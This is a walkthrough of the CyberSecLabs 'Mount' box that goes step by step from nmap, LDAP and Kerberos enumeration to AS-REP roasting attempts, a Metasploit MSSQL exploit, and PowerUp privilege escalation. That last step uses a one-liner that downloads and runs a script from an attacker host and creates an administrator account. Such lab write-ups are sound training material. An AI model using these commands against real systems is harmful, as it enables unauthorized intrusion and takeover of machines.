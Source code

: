 In this walkthrough, we'll go over a challenge (intermediate - advance) level box called "Mount". Mount is one of the realistic and hard boxes on [Cyberseclabs.co.uk](https://www.cyberseclabs.co.uk).

![Mount IP](mountIP.png)

Let's start the scanning process with nmap:
```bash
nmap -T4 -A 172.31.3.5 -oX mount_scan.xml
```
![Mount nmap Scan](mountNmapScan.png)

We can also look at the result in html format:

![Mount nmap Scan XML](mountNmapScanXML.png)

As we can see there are a lot of services running on this machine from LDAP to MSSQL so let's start our enumeration with LDAP:
```bash
nmap -n -sV --script "ldap* and not brute" -p 389 172.31.3.5 -oX mount_ldap.xml
```
I was hoping to find some user or SPNs (Service Principal Names), but this only returned some basic information, such as the domain name:

![Mount LDAP enum XML](mountLDAPenumXML.png)

My next enumeration is kerberos since the port 88 was open:
```bash
nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='mount.csl'" 172.31.3.5
```
![Mount Nmap Kerberos enum](mountNmapKerberosEnum.png)

It looks like we have admin user in the domain, can we get more information, such as non-preauth AS_REP responses. In simple terms, we are checking if the Kerberos pre-authentication was disabled for this user and vulnerable to ASREPRoasting. If this query is successful, we can obtain the TGT for a service account: 
```bash
GetNPUsers.py -dc-ip 172.31.3.5 mount.csl/administrator
```
![Mount impacket ASREP](mountGetNPUsers.png)

Unfortunately, this was unsuccessful. My next enumeration would be targeting MSSQL since it is a service, let's see if we can find anything there. For this, I am using ```admin/mssql/mssql_enum``` module in Metasploit:

![Mount MSF MSSQL enum 1](mountMSFmssqlenum_1.png)

And this returns some users and service accounts:

![Mount MSF MSSQL enum 2](mountMSFmssqlenum_2.png)

Let's use another Metasploit module to pull more service account and user names, the module is ```auxiliary/admin/mssql/mssql_enum_sql_logins```:

![Mount MSF MSSQL enum 3](mountMSFmssqlenum_3.png)
![Mount MSF MSSQL enum 4](mountMSFmssqlenum_4.png)

Now, we have a bunch of service account and user names and let's try ASREPRoasting again:

![Mount All Users](mountAllUsers.png)

```bash
GetNPUsers.py -dc-ip 172.31.3.5 mount.csl/ -usersfile users.txt -no-pass
```
![Mount impacket ASREP All Users](mountGetNPUsersAllUsers.png)

And we have nothing. We know that MSSQL is running and we can enumerate, can we try an exploit on this service? Let's try Metasploit ```exploit/windows/mssql/mssql_payload```:

![Mount MSF MSSQL exploit](mountMSFmssqlExploit.png)
![Mount MSF MSSQL shell](mountMSFshell.png)

Yayyy, we got a shell as MSSQLSERVER service account. However, this doesn't give us the admin privileges to read the flags from both user and system.

There is a very powerful PowerShell script called PowerUp which enumerates everything and reports back all the security holes so let's upload that to the newly compromised machine and find out how we can escalate our privileges:

You just need to locate your PowerUp.ps1 and start a Python server, and then in the meterpreter shell we can download file and run it:

![Mount Python Server](mountPythonServer.png)
![Mount Python Server PS 1](mountPythonServerPS1.png)
![Mount Python Server PS 2](mountPythonServerPS2.png)

When we scroll down to the result, we'll see that service name UsoSvc has admin privileges:

![Mount Python Server PS 3](mountPythonServerPS3.png)

It is suggesting that we should run ```Invoke-ServiceAbuse -Name 'UsoSvc'```. Let's do it:
```bash
iex (New-Object Net.Webclient).DownloadString('http://10.10.0.125/PowerUp.ps1');Invoke-ServiceAbuse -Name 'UsoSvc'
```
![Mount Privesc](mountPrivEsc.png)

As we can see we have just created a user called John with Password123! and added to the administrators group so John is an admin on this machine. Can we try to loign as John to this machine?
```bash
evil-winrm -i 172.31.3.5 -u john -p 'Password123!'
```
![Mount EvilWinrm 1](mountEvilWinrm1.png)

Let's list all the users:

![Mount EvilWinrm 2](mountEvilWinrm2.png)

Flags are located in the respective users' desktops:

![Mount Access Flag](mountAccessFlag.png)
![Mount System Flag](mountSystemFlag.png)

Now, we have captured both user/access and root/system flags...

I hope you enjoyed this walkthrough..

Thank you for reading...

[<= Go Back to Cyberseclabs Walkthrouhgs](CyberseclabsWalkthroughs.md)

[<= Go Back to Main Menu](index.md)
